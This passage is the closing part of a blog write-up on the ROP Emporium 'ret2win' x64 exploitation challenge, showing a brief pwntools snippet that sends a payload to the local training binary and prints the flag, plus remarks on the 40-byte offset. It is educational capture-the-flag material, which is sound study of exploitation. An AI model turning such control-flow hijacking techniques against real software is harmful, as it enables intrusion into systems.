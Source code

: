 ```python
# send payload
io = process('./ret2win')
io.sendline(payload)

# retrieve flag
io.recvuntil(b'flag:\n')
flag = io.recvline()
success(flag)
```
![flag](/images/ret2win/x64-flag.png)

## Conclusion
This challenge is fairly straightforward but being able
to control the `instruction pointer` is the
basis for all challenges going forward. Since the goal
of ROP Emporium is to teach ROP in isolation, all
`x64` challenges will use the same offset
of `40 bytes` and will have the same compiled protections.
For the sake of brevity, I won't go over finding the
protections and offset in every challenge.

[Next Challenge (split)]({% post_url 2024-06-01-rop-emporium-split-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[ret2win x86]({% post_url 2024-05-31-rop-emporium-ret2win-x86%}){:target="_blank"}{:rel="noopener noreferrer"}
